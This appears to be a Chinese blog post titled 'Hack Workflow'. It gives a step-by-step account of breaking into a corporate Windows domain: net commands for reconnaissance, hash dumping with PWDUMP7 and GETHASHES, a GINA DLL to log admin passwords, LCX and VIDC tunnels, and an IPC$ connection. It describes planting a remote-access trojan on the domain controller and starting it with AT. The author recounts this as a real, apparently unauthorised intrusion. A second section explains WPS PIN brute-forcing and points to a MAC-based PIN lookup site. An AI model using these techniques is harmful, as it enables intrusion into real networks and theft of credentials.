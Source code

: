 ```yaml
---
layout: post
title: Hack Workflow  
tags: Kali
categories: IT-Admin
---
```


## Hack Workflow

渗透: 信息收集，然后分类归档，技术利用，从而达到目标。

1. 收集信息。

- 这台机器的所属人员，公司职位身份，有多大的权利， 这都关系到他在内网里的权限。

- 翻他的电脑这是必要的，一台个人用的电脑，从上面翻出与他自己相关的一些信息，和大量公司信息应该是没有问题的，除非，这是台新电脑。

- 期间你要记下你所掌握到的账号，密码这些重要数据，以后有一定的用，所以，在你渗透之前.记笔记.

2. 了解网络:
一般的内网，还是域?  必须了解他的网络拓扑，

我们只能了解我们所能知道的。不管他是INT，DMZ，LAN，我们必须足够掌握。在这，我们就会用到一定的命令，相信大家应该都很熟悉。
- ipconfig /all            IP段 网关 属于不属于域
- net view                 查询一些存在联系的机器，一般以机器名显示，我们需要对其PING出IP，一是方便查询哪些重要机器的IP，二是方便查询存在几个段
- net view /domain   查询有几个域 因为大型网络里面一般不止一个域的
- net group /domain 查询域里面的组
- net user /domain   查询域用户
- net group “domain admins” /domain 查询域管理用户组


3. 信息归档
2-1、有了信息，我们就要对信息进行一定的归档，将每个机器名所对应的IP归档，方便用时不会乱。
2-2、查询出的用户，管理员，我们也必须归档。
2-3、查询信息时可能出现的有利用价值信息必须归档。

3、技术利用
3-1、不论是通过键盘记录。或者HASH的抓取，我们需要将账号，密码，邮箱，凡是涉及关键数据的全部保存，一方面是准备渗透的资料，二是防止当前利用机器会掉。
3-1-1、利用远控的键盘记录进行抓取。
3-1-2、利用PWDUMP7或者GETHASHES进行抓取HASH，然后破解。GETHASHES V1。4后 可以抓取域的全部HASH。
3-1-3、用GINASTUB。DLL获取管理员的账号和密码。因为域管理员有权限登陆任何一台机器。种上这个只是方便记录他所登陆的密码。INSTALL后，会在SYSYTEM32下生成一个 FAXMODE。INC 文件记录密码。

3-2、有了内网，很多东西我们是没有必要直接在当前利用机器上操作的，别人虽然是内网，但是不代表他没有防御系统，所以，我们建立SOCKS或者VPN是很有必要的，建立SOCKS相信大家都会了吧。

3-2-1、我在这推荐 VIDC 这个工具，很方便，在CMD下直接操 VIDC。EXE -D -P PORT 就可以了。
3-2-2、在利用机器上使用LCX，CMD下 LCX。EXE -SLAVE 服务器IP PORT 127。0。0。1 PORT，然后到服务器上CMD下 LCX。EXE -LISTEN 服务器IP PORT 任意PORT。
3-2-3、建立SOCKS后在本地可以用SOCKSCAP来进行连接，成功连接后该操作什么就看你们自己了。
基本上我们就只能操作这么多了，后面已经没有什么技术上的再使用或利用，但是这中间的经验不少，所需要处理的细节也不少。
我们在得到内网机器后，如果他存在域，但是没有使用域账号怎么办?那我们只能查询或者想尽一切手段获得他常用的账号密码，然后利用这个账号密码，再通过SOCKS进入域。这其中就关系到各位 同行查看控制机器的文件，还有记录密码，GINA，HASH破解，这些都是必须的。

进入域后，我们又该怎么做，建立SOCKS后又该怎么做。我们可以扔S上去查看主要的端口，我们可以对端口进行弱口令的尝试，我们可以针对内网的WEB进行检测，方式很多，甚至你可以用MS08-067 对另一台机器进行突破，但是相信我，能使用域的机器，大部分都是补丁打齐的。我们能利用的很少，但是不能灰心，只要能在内网穿梭，我们至少在防御上会轻松很多，我们需要的只是耐心和时间。

一旦拥有密码，我们就可以尝试IPC连接，直接拿下域，这就得看你们的权限有多大。
net use \IPipc$ password /user:username@domain
推荐使用这样的方式输入账号和密码，为什么?如果用户名存在空格，你这样输会保险些。什么 域用户不能存在空格?
是的，以前我也认为不会，微软的讲师也说不会，不过，经过我的测试和经验，那是假的，域 完全可以空格，除了user name 这样的，还可以存在 user na me ，不信你可以试试。建立IPC后，你只是想COPY文件或者 RAR文件再或者种马 那就是你的自由了。
后话:最近因为在渗域，在渗透过程中，也确实出现一些问题，几次都是不知如何进行，其实在技术上，并没有什么障碍。主要是在于对方有着比较强的主防御，而我的远控最开始连CMD都无法执行， 后经过几天的环境测试，突破了CMD。有了CMD后，进行了查询，获得了一些信息，就开始了往下的渗透，被控机器的密码我不是跑出来的，我是翻他的文件翻出他常用密码的。因为他没有使用域账号， 都是以系统账号登陆，所以无法查看域。我只能用他的域账号建立IPC连接，查找到内网的一个WEB服务，将其渗透后才算拿下了一个稳定的内网机器。
拿下内网WEB服务器后，我就已经完全在域内，没有使用HASH INJECTION，我是先查询了DOMAIN ADMINS，发现WEB服务器上的账号就属于这个组，PW后得到了HASH，破解掉我就连向了域控服务器的 IPC$。
连接了IPC$，直接在其SYSYTEM32下扔了一个远控，然后用AT命令将其启动，这期间我尝试了5个SHIFT，但是SHIFT关闭后，我的远控也会掉，所以排除了这种方法，还是用AT来ADD NEW JOB 比较方便 。
给域控服务器种了远控，利用CMD来GETHASHES了全部的HASHES进行破解，很幸运的查到了文件管理组的用户，这才有了我后面的目标达成。
总的来说，我这次的渗透比较运气好，中间麻烦事不是太多，不过也花了半个月的时间，时间大部分花在测试防御环境，软件免杀，木马免杀，查找资料这些上面。
后来，我获取了他的网络拓补图，发现我所呆的区域只是一个小小的域，还有好几个域我还没有涉及到，在域的前面是DMZ，而DMZ前面当然是INT了。
已经很晚了，本来是在写一份详细的渗透过程，不过因为一直工作，很多细节没有办法当场记录，所以，暂时在BLOG上写一些能想到的，后面如果有时间有环境，会再补充更多的细节以及图片和在渗 透时所遇到的麻烦，如何解决等写出来。




## wifi 渗透


路由器 wps 功能:
WPS用于简化Wi-Fi无线的安全设置和网络管理。

它支持两种模式：
个人识别码(PIN)模式和按钮(PBC)模式。
路由器在出产时默认都开启了wps但这真的安全么！

个人码(PIN)
有人可能会问了什么是pin码？
WPS技术会随机产生一个八位数字的字符串作为个人识别号码（PIN）
Pin码会分成前半四码和后半四码。前四码如果错误的话，那路由器就会直接送出错误讯息，而不会继续看后四码，意味着试到正确的前四码，最多只需要试 10000 组号码。一旦没有错误讯息，就表示前四码是正确的，而我们便可以开始尝试后四码。 后四码比前四码还要简单，因为八码中的最后一码是检查码，由前面七个数字产生，因此实际上要试的只有三个数字，共一千个组合。这使得原本最高应该可达一千万组的密码组合（七位数+检查码），瞬间缩减到仅剩 11,000 组，大幅降低破解所需的时间.

根据路由MAC地址算出默认pin码
另外有种更快破解wifi的方法就是根据路由MAC地址（MAC是路由器的物理地址，是唯一的识别标志）算出默认出产时的pin码例如以下软件 还可以通过别人共享的找到pin码！http://mac-pin.456vv.net/




